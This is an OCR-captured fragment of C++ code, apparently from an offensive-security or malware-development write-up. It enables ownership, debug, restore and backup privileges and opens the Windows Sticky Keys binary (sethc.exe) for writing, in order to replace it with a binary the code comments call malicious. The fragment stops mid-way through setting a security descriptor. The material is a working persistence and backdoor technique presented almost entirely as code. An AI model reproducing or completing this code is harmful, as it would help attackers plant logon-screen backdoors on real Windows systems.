 ```cpp
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) 
  res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : 
  "failed to enable %s :(\n", 
  priv);
  return res;
}

int main() {
  // path to the legitimate binary (e.g., Sticky Keys)
  const char* legitApp = "C:\\Windows\\System32\\sethc.exe";
  // path to the malicious binary
  const char* meowApp = "Z:\\hack.exe";

  if (!setPrivilege(SE_TAKE_OWNERSHIP_NAME)) return -1;
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  if (!setPrivilege(SE_RESTORE_NAME)) return -1;
  if (!setPrivilege(SE_BACKUP_NAME)) return -1;

  HANDLE hFile = CreateFileA((LPCSTR)legitApp, GENERIC_WRITE, 
  FILE_SHARE_READ, NULL, OPEN_EXISTING, 
  FILE_ATTRIBUTE_NORMAL, NULL);

  // obtain the SID for the current user
  HANDLE hToken;
  DWORD dwSize = 0;
  PTOKEN_USER pTokenUser = NULL;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &hToken)) {
    printf("Failed to open process token: %d\n", GetLastError());
    CloseHandle(hFile);
    return 1;
  }
  printf("open process token: ok\n");

  // get the required size for the token information
  GetTokenInformation(hToken, TokenUser, NULL, 0, &dwSize);
  pTokenUser = (PTOKEN_USER)malloc(dwSize);
  if (pTokenUser == NULL) {
    printf("failed to allocate memory for token information\n");
    CloseHandle(hToken);
    CloseHandle(hFile);
    return 1;
  }
  printf("allocate memory token info: ok\n");

  // get the token information
  if (!GetTokenInformation(hToken, TokenUser, pTokenUser, dwSize, &dwSize)) {
    printf("failed to get token information: %d\n", GetLastError());
    free(pTokenUser);
    CloseHandle(hToken);
    CloseHandle(hFile);
    return 1;
  }
  printf("get token info: ok\n");

  // initialize a security descriptor
  SECURITY_DESCRIPTOR sd;
  if (!InitializeSecurityDescriptor(&sd, SECURITY_DESCRIPTOR_REVISION)) {
    printf("failed to initialize security descriptor: %d\n", GetLastError());
    free(pTokenUser);
    CloseHandle(hToken);
```
